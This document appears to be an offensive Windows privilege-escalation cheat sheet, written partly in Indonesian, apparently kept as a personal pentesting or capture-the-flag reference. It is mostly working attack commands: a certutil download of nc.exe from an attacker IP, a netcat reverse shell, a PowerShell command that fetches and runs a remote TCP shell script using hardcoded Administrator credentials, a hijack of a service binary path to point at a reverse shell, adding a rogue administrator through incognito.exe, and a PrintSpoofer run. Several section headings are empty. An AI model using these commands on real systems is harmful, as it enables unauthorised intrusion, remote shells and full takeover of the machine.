 ## Check System Info --
~# systeminfo

## Download File From CMD (Not PowerShell) -- 
certutil.exe -urlcache -split -f "http://10.14.17.16:4545/nc.exe" %tmp%\nc.exe

### Reverse Shell
%tmp%\nc.exe IP PORT -e cmd

## Download File From PowerShell) -- 

(New-Object System.Net.WebClient).DownloadFile("https://example.com/archive.zip", "C:\Windows\Temp\archive.zip")  

## Reverse Shell With Nishang To Get Powershell --

## Windows  Exploit Suggester --

##Run Nishang As Administrator to get root! -- 
We must get low shell with nishang. Then run this command

Requirement : SeChangeNotifyPrivilege       Bypass traverse checking             Enabled

Check : whoami /all
PRIVILEGES INFORMATION                                                                                                                                                                                                            [319/687]
----------------------                                                                                                                                                                                                                     
                                                                                                                                                                                                                                           
Privilege Name                Description                          State                                                                                                                                                                   
============================= ==================================== ========                                                                                                                                                                
SeShutdownPrivilege           Shut down the system                 Disabled                                                                                                                                                                
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled  <<---                                                                                                                                                            
SeUndockPrivilege             Remove computer from docking station Disabled                                                                                                                                                                
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled                                                                                                                                                                
SeTimeZonePrivilege           Change the time zone                 Disabled 

Then run this command
$SecPass = ConvertTo-SecureString -AsPlainText -Force 'Welcome1!' 
$cred = New-Object System.Management.Automation.PSCredential('Administrator',$SecPass)
Start-Process -Filepath "powershell" -argumentlist "IEX (New-Object Net.WebClient).downloadString('http://10.10.14.29/Invoke-PowershellTcp.ps1')" -Credential $cred

============================================

# Windows Privilege Escalation

## Insecure Service Permissions
Service merupakan program-program pada windows yang dijalankan pada background. Terkadang menerima input atau menjalankan sebuah task
Jika sebuah **service** dijalankan dengan privileges **SYSTEM** dan terdapat misconfiguration, maka kita bisa melakukan priv esc. 

### Recon
* Query untuk melihat konfigurasi dari service --> `sc.exe qc <name>`
* Melihat status service --> `sc.exe query <name>`
* Modifikasi configurasi dari sebuah service --> `sc.exe config <name> <option>= <value>` (pastikan value ada spasi di depan)
* Start/Stop Service --> `net start/stop <name>`

Terdapat beberapa celah service misconfiguration yang dapat menyebabkan Privilege Escalation diantaranya

### Insecure Service Properties
Setiap service memiliki Access Control (ACL) tentang siapa yang berhak mengakses service tersebut seperi Start/Stop, mengubah konfigurasi dll. Jika low user memiliki hak akses untuk merubah konfigurasi dari service yang dijalankan dengan privilege SYSTEM, maka kita bisa mengganti service tersebut dengan miliki kita. Namun kalau kita bisa ganti tapi gak bisa start/stop, maka kemungkinan tidak bisa di escalate.

-- RECON --

Menggunakan WINPEAS untuk mencari informasi service yang terdapat pada windows
```
.\winPEASany.exe quiet servicesinfo
```
Penjelasan command :
- quiet --> do not print banner, biasanya winpeas bannernya gede banget
- servicesinfo --> mencari informasi service

Hasil dari servicesinfo yang perlu diperhatikan adalah "YOU CAN MODIFY THIS SERVICE: WriteData/CreateFiles" (teks berwarna merah) yang artinya sebuah service bisa diubah konfigurasinya. 

Lalu lakukan pengecekan pada service apakah benar service tersebut bisa dimodifikasi, gunakan tools accesschk.exe
```
accesschk.exe /accepteula -uwcqv <nama_user_low_privilege> <nama_service>
```
Hasilnya :
```
RW MyService
	SERVICE_QUERY_STATUS
	SERVICE_QUERY_CONFIG
	SERVICE_CHANGE_CONFIG
	SERVICE_INTERROGATE
	SERVICE_ENUMERATE_DEPENDENTS
	SERVICE_START
	SERVICE_STOP
	READ_CONTROL
```
Yang terpenting adalah 
```
SERVICE_CHANGE_CONFIG
SERVICE_START
SERVICE_STOP
```
Artinya kita bisa ubah konfigurasi dan untuk bisa menerapkan perubahan maka kita harus restart (start/stop) service. 

Lalu kita cek konfigurasi dari service tersebut
```
sc qc <nama service>
```
```
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: daclsvc
        TYPE               : 10  WIN32_OWN_PROCESS 
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Program Files\DACL Service\daclservice.exe"
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : DACL Service
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem

```
Lihat pada SERVICE_START_NAME service tersebut dijalankan oleh SYSTEM (hak akses tertinggi). Dan juga pada START_TYPE valuenya DEMAND_START yang artinya di start secara manual

Selanjutnya kita cek status servicenya, apakah sedang berjalan atau tidak
```
sc query <nama service>
```
Lihat pada STATE apakah STOPPED or RUNNING

Bagaimana cara melakukan PRIV ESC? perhatikan lagi informasi service berikut :

```

SERVICE_NAME: daclsvc
        TYPE               : 10  WIN32_OWN_PROCESS 
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Program Files\DACL Service\daclservice.exe"
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : DACL Service
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem
```

Karena kita memiliki hak akses untuk merubah konfigurasi, maka kita bisa merubah **BINARY_PATH_NAME** menjadi PATH dimana kita menyimpan file untuk melakukan reverse shell. Perintahnya adalah

```
sc config <nama_service> binpath= "\"C:\myFolder\reverse.exe\""
```
Sehingga BINARY_PATH_NAME berubah menjadi `C:\myFolder\reverse.exe`, untuk menerapkan perubahan pada konfigurasi, perintahnya
```
net start <nama_service>
```
Dan jika berhasil maka akan BOOM BOOM PWn3D!



### Unquoted Service Path
### Weak Registry Permissions
### Insecure Service Executables
### DLL Hijacking
--------------------------------------------------------------

## Token Impersonate

Windows menggunakan Token sebagai Identifier untuk setiap pengguna. Token ini di generate saat login. Ada celah keamanan dimana user biasa bisa melakukan priv esc bilamana user kita saat ini memiliki permission seDebugPrivilege dan SeImpersonatePrivilege

Untuk cek apakah user bisa di impersonate cek di CMD :
$ whoami /priv
pastikan seDebugPrivilege dan SeImpersonatePrivilege enabled. 

Lalu cek user mana saja yang bisa di impersonate. Kita bisa pakai incognito.exe, commandnya :

* incognito.exe list tokens -u //list token available to impersonate
* incognito.exe add_user mrdoel 123456 //add new user
* incognito.exe add_localgroup_user Administrators mrdoel  //add new user to the local administrators group
* net user mrdoel //cek apakah user sudah ditambahkan ke group administrator (Local Group Memberships      *Administrators)

Jika RDP tersedit maka kita bisa login sebagai root dengan command
`rdesktop -u mrdoel -p 123456 target.local`

### Teknik Baru Token Impersonate 
Cara sebelumnya hanya berlaku untuk windows dibawah windows 10. Jika cara diatas tidak bisa maka kita bisa gunakan PrintSpoofer, targetnya Windows 10 and Server 2016/2019. 

Note: pastikan `SeImpersonatePrivilege` berstatus `Enabled`

Cek di https://github.com/itm4n/PrintSpoofer/releases

Perintah untuk menjalankan exploit
```PrintSpoofer64.exe -i -c cmd```
